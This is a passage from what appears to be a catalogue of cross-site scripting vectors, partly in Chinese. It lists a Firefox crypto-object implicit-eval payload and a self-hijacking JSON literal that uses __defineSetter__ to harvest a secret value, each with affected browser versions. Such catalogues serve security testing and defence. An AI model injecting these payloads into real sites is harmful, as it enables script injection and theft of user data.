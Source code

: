 *   xss

*   dom
*   firefox
*   worker
*   self-inclusion
*   e4x

*   [`developer.mozilla.org/En/Using_web_workers`](https://developer.mozilla.org/En/Using_web_workers)

reporter：.mario

### Firefox crypto 对象 - 隐式 eval()#5test

这个向量披露了火狐中 crypto 对象的一个隐式 eval()

```
<script>crypto.generateCRMFRequest('CN=0',0,0,null,'alert(1)',384,null,'rsa-dual-use')</script> 
```

*   firefox 2.x
*   firefox 34.0

*   xss

*   dom
*   firefox
*   crypto
*   eval
*   csp
*   proprietary

*   [`developer.mozilla.org/en/JavaScript_crypto`](https://developer.mozilla.org/en/JavaScript_crypto)

reporter：.mario

## 基于 JSON 的向量

### Self-hijacking JSON literals#54test

In case parts of a JSON literal are controlled by user input there's a risk to allow auto-harvesting values from later object members.

```
<script>[{'a':Object.prototype.__defineSetter__('b',function(){alert(arguments[0])}),'b':['secret']}]</script> 
```

*   opera 10.0
*   opera 10.10

*   chrome 4.0

*   chrome 6.0

*   firefox 1.x
